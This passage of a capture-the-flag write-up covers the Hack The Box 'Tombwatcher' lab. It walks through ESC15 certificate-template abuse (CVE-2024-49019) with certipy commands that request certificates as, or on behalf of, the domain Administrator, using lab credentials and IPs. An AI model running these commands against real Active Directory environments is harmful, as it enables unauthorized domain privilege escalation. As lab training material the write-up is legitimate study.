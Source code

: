 **Method 1**

```bash
certipy req -u 'cert_admin' -p 'aashwin10!' -dc-ip '10.129.232.198' -target 'dc01.tombwatcher.htb' -ca 'tombwatcher-CA-1' -template '<vulnerable_template_name>' -upn 'administrator@tombwatcher.htb' -application-policies 'Client Authentication'
```

![image.png](/assets/images/Tombwatcher_HTB/image%2029.png)

But after getting the administrator.pfx but I wasn’t able to authenticate and get the administrator hash.

**Method 2**

Please refer to the following ESC15 vulnerability article on github.

[https://github.com/rayngnpc/CVE-2024-49019-rayng](https://github.com/rayngnpc/CVE-2024-49019-rayng)

```bash
certipy req -u 'cert_admin@tombwatcher.htb' -p 'aashwin10!' -dc-ip '10.129.232.198' -target 'DC01.tombwatcher.htb' -ca 'tombwatcher-CA-1' -template '<vulnerable_template_name>' -application-policies 'Certificate Request Agent'
```

![image.png](/assets/images/Tombwatcher_HTB/image%2030.png)

Doing so we get cert_admin.pfx file, which we can use to impersonate as administrator to request a certificate for the administrator@tombstone.htb.

```bash
certipy req -u 'cert_admin@dc01.tombwatcher.htb' -p 'aashwin10!' -on-behalf-of tombwatcher\\Administrator -template 'User' -ca 'tombwatcher-CA-1' -pfx cert_admin.pfx -dc-ip '10.129.232.198'
```

![image.png](/assets/images/Tombwatcher_HTB/image%2031.png)
